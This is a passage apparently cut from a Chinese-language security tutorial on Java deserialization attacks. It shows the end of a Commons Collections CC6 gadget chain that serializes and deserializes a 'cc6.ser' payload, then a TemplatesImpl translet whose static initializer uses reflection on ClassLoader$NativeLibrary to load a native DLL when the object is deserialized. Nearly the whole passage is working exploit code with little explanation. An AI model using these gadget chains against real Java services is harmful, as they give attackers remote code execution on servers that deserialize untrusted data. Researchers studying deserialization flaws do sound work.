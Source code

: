```java
        modifiersField.setInt(factory, factory.getModifiers() & ~Modifier.FINAL);
        factory.set(lazyMap, chainedTransformer);
        serialize(hashMap);
        unserialize("cc6.ser");
    }
    public static byte[] readFile(String filePath) throws IOException {
        File file = new File(filePath);
        long fileLength = file.length();
        byte[] fileData = new byte[(int) fileLength]; // 根据文件大小创建字节数组

        try (FileInputStream fis = new FileInputStream(file)) {
            fis.read(fileData); // 读取文件内容
        }

        return fileData; // 返回字节数组
    }

    public static void serialize(Object obj) throws Exception {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("cc6.ser"));
        oos.writeObject(obj);
        oos.close();
    }
    public static Object unserialize(String filename) throws Exception {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }
}
```



再在字节码中加载

```java
public class TemplatesImpl_loadDLL extends AbstractTranslet {
    static{
        try {
            String file = "CC6calc.dll";
            Class a = Class.forName("java.lang.ClassLoader$NativeLibrary");
            Constructor con = a.getDeclaredConstructor(new Class[]{Class.class,String.class,boolean.class});
            con.setAccessible(true);
            Object obj = con.newInstance(Class.class,file,true);
            Method method = obj.getClass().getDeclaredMethod("load", String.class, boolean.class);
            method.setAccessible(true);
            method.invoke(obj, file, false);
        }catch (Exception e){
            e.printStackTrace();
        }
    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }
    public TemplatesImpl_loadDLL(){}

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```
